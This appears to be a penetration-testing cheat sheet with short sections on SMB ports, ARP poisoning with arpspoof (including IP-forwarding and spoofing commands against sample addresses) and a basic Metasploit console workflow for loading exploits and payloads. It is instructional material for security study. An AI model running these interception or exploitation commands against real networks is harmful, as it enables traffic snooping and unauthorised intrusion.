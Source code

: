 Port: 445, 139
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html


### ARP Poisoning/Spoofing (Dsniff)

ARP Poisoning is a powerful attack you can use to intercept traffic on a switched network.

```
# tells my machine to forward packets intercepted to the real destination hosts
echo 1 > /proc/sys/net/ipv4/ip_forward

# arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11

# Example: to intercept traffic between 192.168.1.5 and 192.168.1.6 
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.5 -r 192.168.1.6
# Then run Wireshark and intercept the traffic
```

### Metasploit

Metasploit is an open-source framework used for penetration testing and exploit development.

Metasploit gives you a wide array of commuunity contributed exploits and attack vectors that can be used against various systems and technoologies.

Basic workflow to exploit a target using MSFConsole:

- Identifying a vulnerable service
- Searching for a proper exploit for that service
- Loading and configuring the exploit
- Loading and configuring the payload you want to use
- Running the exploit code and getting access to the vulnerable machine

```
Update MSF
apt  update ; apt install metasploit-framework

# Start MSF SQL dATABASE
service postgresql start



# Starts up metasploit console
msfconsole

# Search all modules by term
search <search term>



# Setting which module to use
use /path/to/exploit

# Info about the exploit/module
show info

# Once a module is being used to show all options to configure
show options

# Use set command and name of setting to configure all settings
set payload /path/to/payload
set RHOST <remote host>
set RPORT <remote port>

```
